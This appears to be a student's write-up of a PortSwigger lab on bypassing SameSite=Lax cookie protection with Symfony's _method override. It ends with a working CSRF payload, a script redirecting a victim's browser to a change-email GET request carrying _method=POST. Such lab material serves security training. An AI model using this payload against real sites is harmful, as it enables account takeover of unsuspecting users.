



# SameSite Lax bypass via method `override`

([access lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-lax-restrictions-using-get-requests/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override#))

### check if the viticms brower is using `SameSite` cookie or not:`

- login functionality show no use of sameSite cookie used. (see the response)

    

 - some browers dont allow to change the `POST` method to `GET` directly.

    

- endpoint only allows `POST` requests. 

- here comes the <mark>Symfony</mark>.

    - `_method = POST`

    


## malicious Script:

```
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

`document.location` - redirects the browser to another URL.